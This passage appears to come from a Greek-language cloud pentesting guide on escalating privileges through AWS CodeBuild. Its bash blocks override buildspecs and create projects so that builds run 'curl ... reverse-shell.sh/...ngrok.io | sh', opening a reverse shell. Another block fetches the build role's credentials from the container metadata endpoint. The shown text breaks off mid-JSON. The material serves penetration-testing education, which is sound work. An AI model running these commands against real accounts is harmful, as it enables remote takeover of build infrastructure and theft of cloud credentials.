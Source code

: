 {% tab title="StartBuildBatch" %}
{% code overflow="wrap" %}Αρχίστε την παρτίδα κατασκευής
```bash
cat > /tmp/buildspec.yml <<EOF
version: 0.2

batch:
fast-fail: false
build-list:
- identifier: build1
env:
variables:
BUILD_ID: build1
buildspec: |
version: 0.2
env:
shell: sh
phases:
build:
commands:
- curl https://reverse-shell.sh/6.tcp.eu.ngrok.io:18499 | sh
ignore-failure: true
EOF

aws codebuild start-build-batch --project <project-name> --buildspec-override file:///tmp/buildspec.yml
```
{% endcode %}
{% endtab %}
{% endtabs %}

**Σημείωση**: Η διαφορά μεταξύ αυτών των δύο εντολών είναι ότι:

* `StartBuild` ενεργοποιεί μια μοναδική εργασία κατασκευής χρησιμοποιώντας ένα συγκεκριμένο `buildspec.yml`.
* `StartBuildBatch` σας επιτρέπει να ξεκινήσετε μια παρτίδα κατασκευών, με πιο σύνθετες ρυθμίσεις (όπως η εκτέλεση πολλών κατασκευών παράλληλα).

**Πιθανές Επιπτώσεις:** Άμεση εκχώρηση δικαιωμάτων σε συνδεδεμένους ρόλους AWS Codebuild.

### `iam:PassRole`, `codebuild:CreateProject`, (`codebuild:StartBuild` | `codebuild:StartBuildBatch`)

Ένας επιτιθέμενος με τα δικαιώματα **`iam:PassRole`, `codebuild:CreateProject`, και `codebuild:StartBuild` ή `codebuild:StartBuildBatch`** θα μπορούσε να **εκχωρήσει δικαιώματα σε οποιονδήποτε ρόλο IAM του codebuild** δημιουργώντας έναν εκτελούμενο. 

{% tabs %}
{% tab title="Example1" %}
```bash
# Enumerate then env and get creds
REV="env\\\\n      - curl http://169.254.170.2\$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"

# Get rev shell
REV="curl https://reverse-shell.sh/4.tcp.eu.ngrok.io:11125 | bash"

JSON="{
\"name\": \"codebuild-demo-project\",
\"source\": {
\"type\": \"NO_SOURCE\",
\"buildspec\": \"version: 0.2\\\\n\\\\nphases:\\\\n  build:\\\\n    commands:\\\\n      - $REV\\\\n\"
},
\"artifacts\": {
\"type\": \"NO_ARTIFACTS\"
},
```